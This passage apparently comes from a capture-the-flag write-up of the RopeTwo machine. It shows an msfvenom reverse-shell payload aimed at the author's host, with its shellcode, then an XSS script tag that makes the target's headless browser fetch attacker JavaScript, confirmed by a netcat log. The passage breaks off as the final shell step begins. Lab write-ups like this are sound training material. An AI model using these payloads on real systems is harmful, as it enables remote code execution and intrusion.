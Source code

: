 ```

root@kali# msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 -f dword
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 76 bytes
Final size of dword file: 232 bytes
0x9958296a, 0x6a5f026a, 0x050f5e01, 0xb9489748, 0xbb010002, 0x0e0e0a0a, 0xe6894851, 0x6a5a106a, 
0x050f582a, 0x485e036a, 0x216aceff, 0x75050f58, 0x583b6af6, 0x2fbb4899, 0x2f6e6962, 0x53006873, 
0x52e78948, 0xe6894857, 0x0000050f

```

I’ll update `exploit.js`. The final full version is [here](/files/ropetwo-pwn-v8.js).

### Find XSS

With an exploit for the vulnerable browser, I need some way to get the user on RopeTwo to load JavaScript from my host. I went back to `/contact` on port 8000. I had tried some basic XSS attempts during initial enumerations (like sending a link to be clicked) without luck. But here I want their browser to load script from me, so I tried a script tag:

```

<script src="http://10.10.14.14/script.js"></script>

```

With `nc` listening, a request arrived:

```

root@kali# nc -lnvp 80
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 10.10.10.196.
Ncat: Connection from 10.10.10.196:48812.
GET /script.js HTTP/1.1
Host: 10.10.14.14
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/85.0.4157.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: en-US

```

Looks like I have a way to get RopeTwo to load script.

### Shell

I’ll combine all this to get a shell. I’ll start a Python HTTP server to serve `exploit.js`, and start a `nc` listener. Then I’ll submit:
